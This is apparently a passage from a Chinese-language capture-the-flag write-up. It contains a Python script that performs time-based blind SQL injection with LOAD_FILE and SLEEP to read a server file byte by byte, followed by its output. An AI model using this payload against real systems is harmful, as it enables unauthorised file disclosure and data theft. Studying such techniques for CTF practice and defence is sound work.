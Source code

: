 ```python=
i = 22

while True:
    found_char = False

    for c in char_range:
        hex_value = format(c, 'X')
        payload = f"+AND+IF(HEX(SUBSTRING(LOAD_FILE('{file_path}'),{i},1))='{hex_value}',SLEEP(5),0)+-- "
        headers = {
            'Upgrade-Insecure-Requests': '1',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
            'Connection': 'close'
        }
        r = requests.get(url + payload, headers=headers)

        if r.elapsed.total_seconds() >= 5:
            flag += chr(c)
            flags.append(flag)  # 將符合條件的flag存儲在列表中
            print(f'找到第{i}個字符: U+{ord(chr(c)):04x}')
            found_char = True
            break

    if not found_char:
        print('找不到更多字符，結束')
        break

    i += 1

print('讀取的flag:', flags)

```
###### 2.1 輸出字元: 一堆阿拉伯文
###### 2.2 輸出UTF-8:
```
找到第22個字符: b'\xc3\xb0'
找到第23個字符: b'\xc2\x9f'
找到第24個字符: b'\xc2\x98'
找到第25個字符: b'\xc2\xad'
找到第26個字符: b'\xc3\xb0'
找到第27個字符: b'\xc2\x9f'
找到第28個字符: b'\xc2\x8e'
找到第29個字符: b'\xc2\xb8'
找到第30個字符: b'\xc3\xb0'
找到第31個字符: b'\xc2\x9f'
找到第32個字符: b'\xc2\x98'
找到第33個字符: b'\xc2\xad'
找到第34個字符: b'\xc3\xb0'
找到第35個字符: b'\xc2\x9f'
找到第36個字符: b'\xc2\x8e'
找到第37個字符: b'\xc2\xb8'
找到第38個字符: b'\xc3\xb0'
找到第39個字符: b'\xc2\x9f'
找到第40個字符: b'\xc2\x98'
找到第41個字符: b'\xc2\xad'
找到第42個字符: b'\xc3\xae'
找到第43個字符: b'\xc2\x9f'
找到第44個字符: b'\xc2\x8e'
```